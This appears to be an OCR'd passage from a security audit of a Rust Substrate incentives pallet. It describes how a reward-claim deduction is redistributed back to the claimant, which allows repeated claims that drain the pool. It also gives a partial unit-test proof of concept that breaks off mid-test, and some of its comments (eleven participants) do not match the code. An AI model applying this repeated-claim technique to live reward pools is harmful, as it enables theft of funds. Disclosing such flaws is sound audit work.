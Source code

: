```Rust
fn payout_reward_and_reaccumulate_reward(
	pool_id: PoolId,
	who: &T::AccountId,
	reward_currency_id: CurrencyId,
	payout_amount: Balance,
	reaccumulate_amount: Balance,
) -> DispatchResult {
	if !reaccumulate_amount.is_zero() {
		<orml_rewards::Pallet<T>>::accumulate_reward(&pool_id, reward_currency_id, reaccumulate_amount)?;
	}
	T::Currency::transfer(reward_currency_id, &Self::account_id(), who, payout_amount)?;
	Ok(())
}
```

Since the deduction is redistributed between all participants (since `accumulate_reward` distributes to all participating users) including the one claiming the reward, they can repeatedly claim rewards and receive more of the rewards pool than they probably should.

### Proof of Concept

```Rust
#[test]
fn repeated_claiming() {
	ExtBuilder::default().build().execute_with(|| {
		assert_ok!(TokensModule::deposit(BTC, &VAULT::get(), 10000));

		assert_ok!(IncentivesModule::update_claim_reward_deduction_rates(
			RuntimeOrigin::signed(ROOT::get()),
			vec![(PoolId::Dex(BTC_AUSD_LP), Rate::saturating_from_rational(0, 100))]
		));

		assert_ok!(IncentivesModule::update_claim_reward_deduction_rates(
			RuntimeOrigin::signed(ROOT::get()),
			vec![(PoolId::Dex(BTC_AUSD_LP), Rate::saturating_from_rational(20, 100))]
		));

		// 40% deduction rate
		assert_ok!(IncentivesModule::update_claim_reward_deduction_rates(
			RuntimeOrigin::signed(ROOT::get()),
			vec![(PoolId::Dex(BTC_AUSD_LP), Rate::saturating_from_rational(40, 100))]
		));

		// give RewardsSource tokens
		TokensModule::deposit(BTC, &RewardsSource::get(), 10000);

		// add 11 participants with equal shares
		TokensModule::deposit(BTC_AUSD_LP, &ALICE::get(), 100);
		TokensModule::deposit(BTC_AUSD_LP, &BOB::get(), 100);


		// 1000 BTC as reward
		IncentivesModule::update_incentive_rewards(RuntimeOrigin::signed(ROOT::get()), vec![(PoolId::Dex(BTC_AUSD_LP), vec![(BTC, 1000)])]);
		
		// all 11 participants deposit their share
		assert_ok!(IncentivesModule::deposit_dex_share(RuntimeOrigin::signed(ALICE::get()), BTC_AUSD_LP, 100));
		assert_ok!(IncentivesModule::deposit_dex_share(RuntimeOrigin::signed(BOB::get()), BTC_AUSD_LP, 100));
		
		// first accumulation of rewards
		IncentivesModule::on_initialize(10);
```
